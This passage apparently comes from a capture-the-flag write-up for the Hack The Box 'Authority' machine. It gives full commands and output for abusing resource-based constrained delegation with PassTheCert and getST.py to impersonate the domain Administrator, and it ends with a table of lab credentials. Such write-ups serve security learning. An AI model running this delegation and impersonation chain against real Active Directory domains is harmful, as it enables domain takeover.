

**PassTheCert -> TGT [Path 2]**

The intended way to exploit this is to use the `write_rbcd` action to give the fake computer `irem$` delegration rights over the DC:

```bash
➜  authority python PassTheCert/Python/passthecert.py -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'irem$' -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] irem$ can now impersonate users on AUTHORITY$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     irem$        (S-1-5-21-622327497-3269355298-2248959698-11602)

```

And get a Silver Ticket:

```bash
➜  authority faketime "$(ntpdate -q authority.htb | cut -d ' ' -f 1,2)" getST.py -spn 'cifs/AUTHORITY.AUTHORITY.HTB' -impersonate Administrator 'authority.htb/irem$:Winter2025!'
/usr/local/bin/getST.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'getST.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_AUTHORITY.AUTHORITY.HTB@AUTHORITY.HTB.ccache

```

BAMMM!!!!!!!!!!!!

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| - | !@#$%^&* | ansible | - | - |
| svc_pwm | pWm_@dm!N_!2 | pwm - website | ansible | - |
| svc_ldap | lDaP_1n_th3_cle4r! | LDAP | poising PWM | ESC1 |
